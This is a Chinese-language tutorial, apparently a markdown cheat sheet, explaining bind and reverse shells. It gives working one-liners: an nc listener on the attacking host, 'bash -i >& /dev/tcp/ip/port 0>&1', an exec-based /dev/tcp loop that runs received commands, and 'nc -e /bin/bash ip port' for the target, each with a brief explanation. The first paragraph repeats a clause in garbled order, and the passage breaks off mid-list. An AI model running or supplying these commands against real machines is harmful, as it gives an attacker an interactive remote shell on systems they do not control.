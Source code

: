 ###### 正向反弹shell和反向反弹shell

正向反弹是目标机先执行nc命令，然后kali上再进行nc监听，即可反弹shell；kali上再进行nc监听，正向反弹是目标机先执行nc命令，即可反弹shell

###### bash

在攻击主机上执行端口监听：

```bash
nc -lvvp port                //port 为攻击主机端口号，并且此端口号没有被占用
```

在目标主机上执行：

```bash
bash -i >& /dev/tcp/攻击主机ip/port 0>&1                //port 为攻击主机端口号
```

解释：

```bash
bash -i   打开一个交互的bash

>&   将标准错误输出重定向到标准输出

/dev/tcp/x.x.x.x/port   意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口

0>&1   标准输入重定向到标准输出，实现你与反弹出来的shell的交互
```

> /dev/tcp/x.x.x.x/port 意为调用socket,建立socket连接,其中x.x.x.x为要反弹到的主机ip，port为端口
>
> 0>&1 标准输入重定向到标准输出，实现你与反弹出来的shell的交互

其他版本

```bash
exec 5<>/dev/tcp/x.x.x.x/9999

cat <&5 | while read line; do $line 2>&5 >&5; done
```

第一条命令 建立与x.x.x.x:9999的tcp连接，并将标准输入输出作为device 5的标准输入输出

第二条cat <&5 获取device5的输入; while read line; do $line 2>&5 >&5 一旦获取到命令便运行 然后将标准输入输出以及标准错误输出到device5中

###### nc(netcat)反弹（常用）

在攻击主机上执行端口监听：

```powershell
nc -lvvp port                //port 为攻击主机端口号，并且此端口号没有被占用
```

在目标主机上执行：

```powershell
nc -e /bin/bash 攻击主机ip port
```

还可以在目标主机上这样执行
